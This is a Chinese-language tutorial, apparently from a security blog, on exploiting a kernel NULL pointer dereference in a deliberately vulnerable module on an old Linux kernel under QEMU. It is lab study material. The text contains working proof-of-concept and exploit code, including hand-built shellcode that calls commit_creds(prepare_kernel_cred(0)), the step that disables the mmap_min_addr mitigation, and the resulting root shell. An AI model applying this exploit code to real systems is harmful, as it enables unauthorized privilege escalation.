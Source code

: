 ```yaml
---
title: linux kernel exploitation null dereference
categories:
  - pwn
tags: linux-kernel-exploitation
published: true
---
```


# Introduction

空指针解引用产生的问题，利用方法是映射 0 地址，在 0 地址上放置 shellcode 执行。


# Bug

查看漏洞代码：

```
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

void (*my_funptr)(void);

int bug1_write(struct file *file, const char *buf, unsigned long len)
{
    my_funptr();
    return len;
}

static int __init null_dereference_init(void)
{
    printk(KERN_ALERT "null_dereference driver init!\n");
    create_proc_entry("bug1", 0666, 0)->write_proc = bug1_write;
    return 0;
}

static void __exit null_dereference_exit(void)
{
    printk(KERN_ALERT "null_dereference driver exit\n");
}

module_init(null_dereference_init);
module_exit(null_dereference_exit);
```

代码中 `my_funptr` 函数指针未初始化，其值为空 (`0x0`)，调用 `my_funptr` 即执行 `0x0` 地址处的指令。

将漏洞代码保存为 `null_dereference.c` ，创建 `Makefile` 写入以下内容：

```
obj-m := null_dereference.o  
KERNELDR := ~/linux_kernel/linux-2.6.32
PWD := $(shell pwd)  
modules:  
        $(MAKE) -C $(KERNELDR) M=$(PWD) modules  
moduels_install:  
        $(MAKE) -C $(KERNELDR) M=$(PWD) modules_install  
clean:  
        rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions
```

`KERNELDR` 填写 linux kernel 代码的目录，有空行的前面必须使用 `Tab`，否则会编译失败。

make 编译完之后将 `null_dereference.o` 放入 `busybox-1.19.4/_install` 目录下，重新生成 `rootfs.img` 文件：

```
find . | cpio -o --format=newc > ../rootfs.img
```

# Poc

接下来编译 `poc`：

```
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

char payload[] = "\xe9\xea\xbe\xad\x0b"; // jmp 0xbadbeef

int main() {
    mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));

    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "fanrong", 7);

    return 0;
}
```

执行：

```
gcc -static poc.c -o poc
```

编译之后重新生成一次 `rootfs.img`。

启动 qemu，用 `Ctrl+Alt+2` 切换到控制台，执行 `gdbserver tcp::1234`，在本地用 `gdb` 连接：

```
gdb-peda$ target remote :1234
Remote debugging using :1234
Warning: not running or target is remote
0xc100955b in ?? ()
gdb-peda$ b *0x0
Breakpoint 1 at 0x0
gdb-peda$ c
Continuing.

```

再用 `Ctrl+Alt+1` 切回去，挂载驱动，执行 poc：

```
# insmod null_dereference.ko
...

# ./poc
```

gdb 执行到断电 `0x0` 地址处，查看一下当前指令：

```

Breakpoint 1, 0x00000000 in ?? ()
gdb-peda$ pdisass $pc
Dump of assembler code from 0x0 to 0x20::	Dump of assembler code from 0x0 to 0x20:
=> 0x00000000:	jmp    0xbadbeef
   0x00000005:	add    BYTE PTR [eax],al
   0x00000007:	add    BYTE PTR [eax],al
   0x00000009:	add    BYTE PTR [eax],al
   0x0000000b:	add    BYTE PTR [eax],al
   0x0000000d:	add    BYTE PTR [eax],al
   0x0000000f:	add    BYTE PTR [eax],al
   0x00000011:	add    BYTE PTR [eax],al
   0x00000013:	add    BYTE PTR [eax],al
   0x00000015:	add    BYTE PTR [eax],al
   0x00000017:	add    BYTE PTR [eax],al
   0x00000019:	add    BYTE PTR [eax],al
   0x0000001b:	add    BYTE PTR [eax],al
   0x0000001d:	add    BYTE PTR [eax],al
   0x0000001f:	add    BYTE PTR [eax],al
End of assembler dump.

```

成功劫持 `eip`。

# Exploit

我们的目标是 root shell，内核并不能直接调用 `system("/bin/sh")`，但是它可以给予当前进程 root 权限。

```
commit_creds ( prepare_kernel_cred (0));
```

获取函数地址：

```
# grep commit_creds /proc/kallsyms
...

# grep kernel_cred /proc/kallsyms
...

```

写成 shellcode：

```
xor %eax, %eax
call 0xc1069be0
call 0xc1069a40
ret
```

查看其反汇编指令：

```
# gcc -o payload payload.s -nostdlib -Ttext=0

# objdump -d payload
...
00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 d9 9b 06 c1       	call   c1069be0 <_end+0xc1068bd0>
   7:	e8 34 9a 06 c1       	call   c1069a40 <_end+0xc1068a30>
   c:	c3                   	ret    
```

exploit：

```
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

char payload[] = "\x31\xc0\xe8\xd9\x9b\x06\xc1\xe8\x34\x9a\x06\xc1\xc3";

int main() {
    mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));

    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "foo", 4);

    system("/bin/sh");
}
```

运行 exploit 之前先关闭 `mmap_min_addr` 缓解措施：

```
# sysctl -w vm.mmap_min_addr="0"
```

添加普通用户：

```
# touch /etc/passwd
# touch /etc/group
# mkdir /home
# adduser user
# su user
$
```

exploit:

```
/ $ ./exploit
/ # id
uid=0 gid=0
/ #
```

# Reference

- [Linux内核漏洞利用（二）NULL Pointer Dereference](http://pwn4.fun/2017/04/19/Linux%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88%E4%BA%8C%EF%BC%89NULL-Pointer-Dereference/)

- [Linux 内核漏洞利用教程（二）：两个Demo](https://www.anquanke.com/post/id/85840)

- [Linux-Kernel-Exploit NULL dereference](http://tacxingxing.com/2018/02/22/linuxkernelexploit-null-dereference/#toc_1)

- [Writing kernel exploits](https://tc.gtisc.gatech.edu/bss/2014/r/kernel-exploits.pdf)

- [linux-kernel expoit study (3)---NULL dereference](http://bestwing.me/2017/04/08/write-kernel-exploits-1/)
